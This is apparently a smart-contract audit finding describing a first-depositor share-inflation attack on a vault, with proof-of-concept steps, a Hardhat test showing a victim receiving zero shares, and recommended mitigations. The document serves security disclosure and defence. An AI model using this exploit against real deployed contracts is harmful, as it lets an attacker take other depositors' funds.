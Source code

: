 The attack vector and impact is the same as [TOB-YEARN-003](https://github.com/yearn/yearn-security/blob/master/audits/20210719\_ToB_yearn_vaultsv2/ToB\_-\_Yearn_Vault_v\_2\_Smart_Contracts_Audit_Report.pdf), where users may not receive shares in exchange for their deposits if the total asset amount has been manipulated through a large “donation”.

### Proof of Concept

*   Attacker deposits 2 wei (so that it is greater than min fee) to mint 1 share
*   Attacker transfers exorbitant amount to `_strategyController` to greatly inflate the share’s price. Note that the `_strategyController` deposits its entire balance to the strategy when its `deposit()` function is called.
*   Subsequent depositors instead have to deposit an equivalent sum to avoid minting 0 shares. Otherwise, their deposits accrue to the attacker who holds the only share.

```jsx
it("will cause 0 share issuance", async () => {
	// 1. first user deposits 2 wei because 1 wei will be deducted for fee
	let firstDepositAmount = ethers.BigNumber.from(2)
	await transferAndApproveForDeposit(
	    user,
	    collateral.address,
	    firstDepositAmount
	)
	
	await collateral
	    .connect(user)
	    .deposit(firstDepositAmount)
	
	// 2. do huge transfer of 1M to strategy to controller
	// to greatly inflate share price
	await baseToken.transfer(strategyController.address, ethers.utils.parseEther("1000000"));
	
	// 3. deployer tries to deposit reasonable amount of 10_000
	let subsequentDepositAmount = ethers.utils.parseEther("10000");
	await transferAndApproveForDeposit(
	    deployer,
	    collateral.address,
	    subsequentDepositAmount
	)

	await collateral
	    .connect(deployer)
	    .deposit(subsequentDepositAmount)
	
	// receives 0 shares in return
	expect(await collateral.balanceOf(deployer.address)).to.be.eq(0)
});
```

### Recommended Mitigation Steps

*   [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
*   Ensure the number of shares to be minted is non-zero: `require(_shares != 0, "zero shares minted");`
*   Create a periphery contract that contains a wrapper function that atomically calls `initialize()` and `deposit()`
*   Call `deposit()` once in `initialize()` to achieve the same effect as the suggestion above.
